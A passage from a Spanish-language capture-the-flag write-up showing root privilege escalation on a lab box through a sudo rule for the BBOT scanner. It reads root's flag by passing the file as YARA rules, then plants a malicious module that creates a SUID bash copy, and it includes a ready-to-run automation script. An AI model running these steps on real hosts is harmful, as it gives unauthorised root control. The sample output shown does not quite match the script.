* **Bug Bounty**: Participar en programas de recompensas por errores, donde se identifican vulnerabilidades y se reportan para recibir compensación.
* **ASM**: Ayuda en la gestión de la superficie de ataque de una organización, identificando activos y puntos vulnerables que pueden ser explotados.

Al ser multipropósito, BEE·bot permite a los usuarios realizar un escaneo más amplio y eficiente de sus objetivos, mejorando la velocidad y efectividad en la detección de posibles vulnerabilidades y exposiciones de seguridad.


```bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```



Al verificar su panel de ayuda, nos encontramos con las siguientes opciones que ofrece la herramienta, investigaremos sus funcionalidades para poder localizar alguna vía para elevar nuestros privilegios a `root`.

```bash
graphasm@cypher:~$ /usr/local/bin/bbot -h
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

usage: bbot [-h] [-t TARGET [TARGET ...]] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]] [--strict-scope] [-p [PRESET ...]] [-c [CONFIG ...]] [-lp] [-m MODULE [MODULE ...]] [-l] [-lmo] [-em MODULE [MODULE ...]]
            [-f FLAG [FLAG ...]] [-lf] [-rf FLAG [FLAG ...]] [-ef FLAG [FLAG ...]] [--allow-deadly] [-n SCAN_NAME] [-v] [-d] [-s] [--force] [-y] [--dry-run] [--current-preset] [--current-preset-full] [-o DIR]
            [-om MODULE [MODULE ...]] [--json] [--brief] [--event-types EVENT_TYPES [EVENT_TYPES ...]] [--no-deps | --force-deps | --retry-deps | --ignore-failed-deps | --install-all-deps] [--version]
            [-H CUSTOM_HEADERS [CUSTOM_HEADERS ...]] [--custom-yara-rules CUSTOM_YARA_RULES]

Bighuge BLS OSINT Tool

options:
  -h, --help            show this help message and exit

Target:
  -t TARGET [TARGET ...], --targets TARGET [TARGET ...]
                        Targets to seed the scan
  -w WHITELIST [WHITELIST ...], --whitelist WHITELIST [WHITELIST ...]
                        What's considered in-scope (by default it's the same as --targets)
  -b BLACKLIST [BLACKLIST ...], --blacklist BLACKLIST [BLACKLIST ...]
                        Don't touch these things
  --strict-scope        Don't consider subdomains of target/whitelist to be in-scope

Presets:
  -p [PRESET ...], --preset [PRESET ...]
                        Enable BBOT preset(s)
  -c [CONFIG ...], --config [CONFIG ...]
                        Custom config options in key=value format: e.g. 'modules.shodan.api_key=1234'
  -lp, --list-presets   List available presets.

Modules:
  -m MODULE [MODULE ...], --modules MODULE [MODULE ...]
                        Modules to enable. Choices: baddns,portscan,ntlm,paramminer_headers,dnsbrute_mutations,chaos,pgp,credshed,azure_tenant,anubisdb,smuggler,dastardly,dnscaa,bypass403,trufflehog,generic_ssrf,badsecrets,viewdns,paramminer_getparams,code_repository,social,zoomeye,urlscan,dnscommonsrv,rapiddns,censys,asn,crt,c99,leakix,httpx,otx,hunt,postman_download,hackertarget,trickest,internetdb,bevigil,git_clone,gitlab,baddns_zone,dnsdumpster,hunterio,robots,wayback,emailformat,vhost,columbus,docker_pull,digitorus,bucket_azure,fullhunt,iis_shortnames,ipneighbor,bucket_amazon,git,filedownload,wpscan,dnsbrute,affiliates,baddns_direct,certspotter,dotnetnuke,ffuf,myssl,fingerprintx,newsletters,dockerhub,bucket_digitalocean,telerik,skymem,shodan_dns,unstructured,passivetotal,sitedossier,nuclei,github_workflows,securitytrails,postman,sslcert,url_manipulation,bucket_firebase,virustotal,wappalyzer,dehashed,ip2location,azure_realm,bucket_google,subdomaincenter,ajaxpro,binaryedge,host_header,github_org,paramminer_cookies,secretsdb,ipstack,builtwith,wafw00f,gowitness,oauth,securitytxt,github_codesearch,ffuf_shortnames,bucket_file_enum
  -l, --list-modules    List available modules.
  -lmo, --list-module-options
                        Show all module config options
  -em MODULE [MODULE ...], --exclude-modules MODULE [MODULE ...]
                        Exclude these modules.
  -f FLAG [FLAG ...], --flags FLAG [FLAG ...]
                        Enable modules by flag. Choices: web-screenshots,baddns,web-thorough,web-basic,iis-shortnames,email-enum,portscan,affiliates,active,web-paramminer,report,cloud-enum,deadly,passive,subdomain-enum,safe,slow,subdomain-hijack,code-enum,social-enum,aggressive,service-enum
  -lf, --list-flags     List available flags.
  -rf FLAG [FLAG ...], --require-flags FLAG [FLAG ...]
                        Only enable modules with these flags (e.g. -rf passive)
  -ef FLAG [FLAG ...], --exclude-flags FLAG [FLAG ...]
                        Disable modules with these flags. (e.g. -ef aggressive)
  --allow-deadly        Enable the use of highly aggressive modules

Scan:
  -n SCAN_NAME, --name SCAN_NAME
                        Name of scan (default: random)
  -v, --verbose         Be more verbose
  -d, --debug           Enable debugging
  -s, --silent          Be quiet
  --force               Run scan even in the case of condition violations or failed module setups
  -y, --yes             Skip scan confirmation prompt
  --dry-run             Abort before executing scan
  --current-preset      Show the current preset in YAML format
  --current-preset-full
                        Show the current preset in its full form, including defaults

Output:
  -o DIR, --output-dir DIR
                        Directory to output scan results
  -om MODULE [MODULE ...], --output-modules MODULE [MODULE ...]
                        Output module(s). Choices: discord,json,web_report,teams,http,stdout,txt,neo4j,csv,subdomains,splunk,asset_inventory,slack,python,websocket,emails
  --json, -j            Output scan data in JSON format
  --brief, -br          Output only the data itself
  --event-types EVENT_TYPES [EVENT_TYPES ...]
                        Choose which event types to display

Module dependencies:
  Control how modules install their dependencies

  --no-deps             Don't install module dependencies
  --force-deps          Force install all module dependencies
  --retry-deps          Try again to install failed module dependencies
  --ignore-failed-deps  Run modules even if they have failed dependencies
  --install-all-deps    Install dependencies for all modules

Misc:
  --version             show BBOT version and exit
  -H CUSTOM_HEADERS [CUSTOM_HEADERS ...], --custom-headers CUSTOM_HEADERS [CUSTOM_HEADERS ...]
                        List of custom headers as key value pairs (header=value).
  --custom-yara-rules CUSTOM_YARA_RULES, -cy CUSTOM_YARA_RULES
                        Add custom yara rules to excavate

EXAMPLES

    Subdomains:
        bbot -t evilcorp.com -p subdomain-enum

    Subdomains (passive only):
        bbot -t evilcorp.com -p subdomain-enum -rf passive

    Subdomains + port scan + web screenshots:
        bbot -t evilcorp.com -p subdomain-enum -m portscan gowitness -n my_scan -o .

    Subdomains + basic web scan:
        bbot -t evilcorp.com -p subdomain-enum web-basic

    Web spider:
        bbot -t www.evilcorp.com -p spider -c web.spider_distance=2 web.spider_depth=2

    Everything everywhere all at once:
        bbot -t evilcorp.com -p kitchen-sink

    List modules:
        bbot -l

    List presets:
        bbot -lp

    List flags:
        bbot -lf
```

### **Reading Privileged Files via BBOT Exploitation through Sudo Privileges**

Tras investigar a fondo la documentación de la herramienta BBOT, encontramos el parámetro `-cy/--custom-yara-rules`, que permite cargar un archivo de reglas YARA personalizadas.

En principio, BBOT espera que se le pase un archivo de reglas YARA, pero decidimos aprovechar esta funcionalidad para indicar que lea otro archivo del sistema, específicamente, acceder al modo debug para observar el comportamiento de la herramienta y poder leer archivos del sistema a nuestro antojo.

En este caso, le indicamos a BBOT que el archivo de reglas YARA es el archivo `/root/root.txt`, activamos el modo debug y, utilizando el parámetro `--dry-run`, abortamos la ejecución después del escaneo. Esto nos permitió acceder a la flag de `root.txt`, ya que, como ejecutamos el binario con privilegios de sudo, obtuvimos acceso al contenido de este archivo restringido.



```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot --custom-yara-rules /root/root.txt -d --dry-run
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

...[snip]...

[DBUG] internal.excavate: Including Submodule CSPExtractor
[DBUG] internal.excavate: Including Submodule EmailExtractor
[DBUG] internal.excavate: Including Submodule ErrorExtractor
[DBUG] internal.excavate: Including Submodule FunctionalityExtractor
[DBUG] internal.excavate: Including Submodule HostnameExtractor
[DBUG] internal.excavate: Including Submodule JWTExtractor
[DBUG] internal.excavate: Including Submodule NonHttpSchemeExtractor
[DBUG] internal.excavate: Including Submodule ParameterExtractor
[DBUG] internal.excavate: Parameter Extraction disabled because no modules consume WEB_PARAMETER events
[DBUG] internal.excavate: Including Submodule SerializationExtractor
[DBUG] internal.excavate: Including Submodule URLExtractor
[DBUG] internal.excavate: Successfully loaded custom yara rules file [/root/root.txt]
[DBUG] internal.excavate: Final combined yara rule contents: d497deda3f97174b93d787874b5869b2
```

### Creating a New BBOT Module to Perform Remote Code Execution through Sudoers Privilege

Dado que el binario de BBOT se ejecuta con privilegios de `sudo`, tenemos la oportunidad de aprovechar esto para ejecutar código arbitrario en el sistema. Los módulos de BBOT están escritos en Python, por lo que podemos crear uno nuevo que aproveche esta funcionalidad.

El enfoque consiste en copiar la estructura de un módulo existente (como `whois.py`), e inyectar un comando malicioso utilizando la librería `os`. Al importar `os` y usar `os.system()`, podemos ejecutar comandos arbitrarios en el sistema. Este nuevo módulo será cargado por BBOT, lo que nos permitirá ejecutar código de forma remota a través de la vulnerabilidad de los privilegios de `sudo`.

Este método ofrece una forma simple de ejecutar comandos sin necesidad de interactuar directamente con la línea de comandos, aprovechando la ejecución de BBOT como un proceso privilegiado.



Lo primero que deberemos de hacer es crear un archivo `myconf.yml` el cual contendrá la ubicación donde crearemos nuestros nuevos módulos para `BBOT`. Por otro lado, crearemos el directorio donde almacenaremos los módulos nuevos y crearemos un nuevo módulo llamado `whois2.py` con la misma estructura del módulo `whois.py` que nos muestra en la documentación de `BBOT`.

<figure><figcaption></figcaption></figure>

```bash
graphasm@cypher:/tmp$ echo -e "module_dirs:\n - /tmp/modules" > /tmp/myconf.yml
graphasm@cypher:/tmp$ mkdir /tmp/modules
graphasm@cypher:/tmp$ cd /tmp/modules
graphasm@cypher:/tmp$ nano whois2.py
```

El contenido de `whois.py` de ejemplo, lo podemos encontrar en la propia documentación de `BBOT`. Simplemente lo editaremos para importar la librería `os` e indicar que utilice la función `os.system` para ejecutar un comando.

<figure><figcaption></figcaption></figure>

Nuestro módulo de `BBOT` malicioso que hemos creado es el siguiente. En este nuevo módulo, aparentemente tiene casi la misma apariencia del módulo `whois2.py`, pero en este hemos eliminado diferentes líneas de código para que el módulo malicioso funcione correctamente.

Tal y como hemos comentado, en la parte superior hemos indicado `import os` para importar la librería de ejecución de comandos, y en el siguiente código se muestra la sección en la cual inyectamos nuestro código malicioso. En este caso, lo que realizaremos es una copia del binario `/bin/bash` y le daremos permisos de `SUID` a la copia creada, para así lograr obtener una `bash` como usuario `root` a través del parámetro `-p`.

```python
  async def setup(self):
	os.system("cp /bin/bash /tmp/gzzcoo && chmod u+s /tmp/gzzcoo")
```


```python
from bbot.modules.base import BaseModule
import os

class whois2(BaseModule):
    watched_events = ["DNS_NAME"] # watch for DNS_NAME events
    produced_events = ["WHOIS"] # we produce WHOIS events
    flags = ["passive", "safe"]
    meta = {"description": "Query WhoisXMLAPI for WHOIS data"}
    options = {"api_key": ""} # module config options
    options_desc = {"api_key": "WhoisXMLAPI Key"}
    per_domain_only = True # only run once per domain

    # one-time setup - runs at the beginning of the scan
    async def setup(self):
        os.system("cp /bin/bash /tmp/gzzcoo && chmod u+s /tmp/gzzcoo")
        self.api_key = self.config.get("api_key")
        return True

    async def handle_event(self, event):
        pass
```


A través del siguiente comando, lo que realizaremos es cargar la configuración de `/tmp/myconf.yml` y le indicaremos que el módulo a importar es `whois2` que es el módulo `BBOT` malicioso creado.

```bash
graphasm@cypher:/tmp$ sudo /usr/local/bin/bbot -p /tmp/myconf.yml -m whois2
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Scan with 1 modules seeded with 0 targets (0 in whitelist)
[INFO] Loaded 1/1 scan modules (whois2)
[INFO] Loaded 5/5 internal modules (aggregate,cloudcheck,dnsresolve,excavate,speculate)
[INFO] Loaded 5/5 output modules, (csv,json,python,stdout,txt)
[INFO] internal.excavate: Compiling 10 YARA rules
[INFO] internal.speculate: No portscanner enabled. Assuming open ports: 80, 443
[SUCC] Setup succeeded for 13/13 modules.
[SUCC] Scan ready. Press enter to execute chiseled_crystal

[WARN] No scan targets specified
[SUCC] Starting scan chiseled_crystal
[SCAN]              	chiseled_crystal (SCAN:e8932c65583fe4c9ebced6e18cf4974796fbfb8f)	TARGET	(in-scope, target)
[INFO] Finishing scan
[SCAN]              	chiseled_crystal (SCAN:e8932c65583fe4c9ebced6e18cf4974796fbfb8f)	TARGET	(in-scope)
[SUCC] Scan chiseled_crystal completed in 0 seconds with status FINISHED
[INFO] aggregate: +----------+------------+------------+
[INFO] aggregate: | Module   | Produced   | Consumed   |
[INFO] aggregate: +==========+============+============+
[INFO] aggregate: | None     | None       | None       |
[INFO] aggregate: +----------+------------+------------+
[INFO] output.csv: Saved CSV output to /root/.bbot/scans/chiseled_crystal/output.csv
[INFO] output.json: Saved JSON output to /root/.bbot/scans/chiseled_crystal/output.json
[INFO] output.txt: Saved TXT output to /root/.bbot/scans/chiseled_crystal/output.txt
```

Verificamos que el módulo se ha importado correctamente en `BBOT`, con lo cual si todo ha funcionado correctamente, al cargar el módulo en `BBOT`, también ha tenido que ejecutar el comando malicioso que hemos inyectado en el módulo.

```bash
graphasm@cypher:/tmp$ sudo /usr/local/bin/bbot -p /tmp/myconf.yml -l | grep whois2
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

| whois2               | scan     | No              | Query WhoisXMLAPI for WHOIS    | passive, safe                  | DNS_NAME             | WHOIS                |
```

Revisamos los permisos de `/bin/bash` que debería disponer de los permisos por defecto, por otro lado, al revisar la copia que se nos ha creado del binario en `/tmp/gzzcoo`, comprobamos que tiene permisos de `SUID` y que el propietario es `root`.

Con lo cual, al obtener permisos de `SUID` podemos obtener una `bash` como el propietario con el parémtro `-p` y como el propietario es `root`, accederemos con el usuario con máximos privilegios del sistema.

Finalmente logramos acceder como `root` y visualizar la flag **root.txt**.

```bash
graphasm@cypher:/tmp$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
graphasm@cypher:/tmp$ ls -l /tmp/gzzcoo
-rwsr-xr-x 1 root root 1446024 Mar  4 17:39 /tmp/gzzcoo
graphasm@cypher:/tmp$ /tmp/gzzcoo -p
gzzcoo-5.2# whoami
root
gzzcoo-5.2# cat /root/root.txt 
d497deda3f97174b93d787874b5869b2
```

También hemos creado el siguiente script en `Bash` que automatiza este último proceso automáticamente.


```bash
#!/bin/bash
set -e

# Paso 1: Crear archivo de configuración
echo "Creando configuración BBOT maliciosa..."
cat << EOF > /tmp/myconf.yml
module_dirs:
  - /tmp/modules
EOF

# Paso 2: Crear directorio de módulos
echo "Creando directorio de módulos..."
mkdir -p /tmp/modules

# Paso 3: Crear módulo malicioso
echo "Creando modulo malicioso 'whois2'..."
cat << 'EOF' > /tmp/modules/whois2.py
from bbot.modules.base import BaseModule
import os

class whois2(BaseModule):
    watched_events = ["DNS_NAME"] # watch for DNS_NAME events
    produced_events = ["WHOIS"] # we produce WHOIS events
    flags = ["passive", "safe"]
    meta = {"description": "Query WhoisXMLAPI for WHOIS data"}
    options = {"api_key": ""} # module config options
    options_desc = {"api_key": "WhoisXMLAPI Key"}
    per_domain_only = True # only run once per domain

    # one-time setup - runs at the beginning of the scan
    async def setup(self):
        os.system("cp /bin/bash /tmp/gzzcoo && chmod u+s /tmp/gzzcoo")
        self.api_key = self.config.get("api_key")
        return True

    async def handle_event(self, event):
        pass
EOF

# Paso 4: Ejecutar BBOT para crear SUID bash
echo "Ejecutando módulo BBOT malicioso..."
sudo /usr/local/bin/bbot -p /tmp/myconf.yml -m whois2

# Paso 5: Comprobar que el SUID bash se ha creado correctamente y hacer uso de este
if [ -u /tmp/gzzcoo ]; then
    echo -e "\n[+] ¡SUID bash creado exitosamente!"
    echo -e "[*] Spawning root shell...\n"
    /tmp/gzzcoo -p
else
    echo -e "\n[-] Explotación fallida: no se creó el SUID bash"
    exit 1
fi

# Cleanup (optional)
# rm /tmp/gzzcoo /tmp/myconf.yml /tmp/modules/whois2.pye
```


Le daremos los permisos de ejecución necesarios a nuestro script y lo ejecutaremos. Cuando nos muestre el mensaje de `Scan ready`, finalmente obtendremos una `bash` como el usuario `root`.


Press ENTER to execute root shell


```bash
user@gzzcoo:/tmp$ chmod +x exploit.sh
user@gzzcoo:/tmp$ ./exploit.sh 
Creating malicious BBOT config...
Creating modules directory...
Creating malicious whois2 module...
Executing malicious BBOT module...
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Scan with 1 modules seeded with 0 targets (0 in whitelist)
[INFO] Loaded 1/1 scan modules (whois2)
[INFO] Loaded 5/5 internal modules (aggregate,cloudcheck,dnsresolve,excavate,speculate)
[INFO] Loaded 5/5 output modules, (csv,json,python,stdout,txt)
[INFO] internal.excavate: Compiling 10 YARA rules
[INFO] internal.speculate: No portscanner enabled. Assuming open ports: 80, 443
[SUCC] Setup succeeded for 13/13 modules.
[SUCC] Scan ready. Press enter to execute anal_faramir

[WARN] No scan targets specified
[SUCC] Starting scan anal_faramir
[SCAN]              	anal_faramir (SCAN:ab93a7e313fee20912e0cd9869521760f8a78033)	TARGET	(in-scope, target)
[INFO] Finishing scan
[SCAN]              	anal_faramir (SCAN:ab93a7e313fee20912e0cd9869521760f8a78033)	TARGET	(in-scope)
[SUCC] Scan anal_faramir completed in 0 seconds with status FINISHED
[INFO] aggregate: +----------+------------+------------+
[INFO] aggregate: | Module   | Produced   | Consumed   |
[INFO] aggregate: +==========+============+============+
[INFO] aggregate: | None     | None       | None       |
[INFO] aggregate: +----------+------------+------------+
[INFO] output.csv: Saved CSV output to /root/.bbot/scans/anal_faramir/output.csv
[INFO] output.json: Saved JSON output to /root/.bbot/scans/anal_faramir/output.json
[INFO] output.txt: Saved TXT output to /root/.bbot/scans/anal_faramir/output.txt

[+] SUID bash created successfully!
[*] Spawning root shell...

bash-5.2# whoami
rootl
```
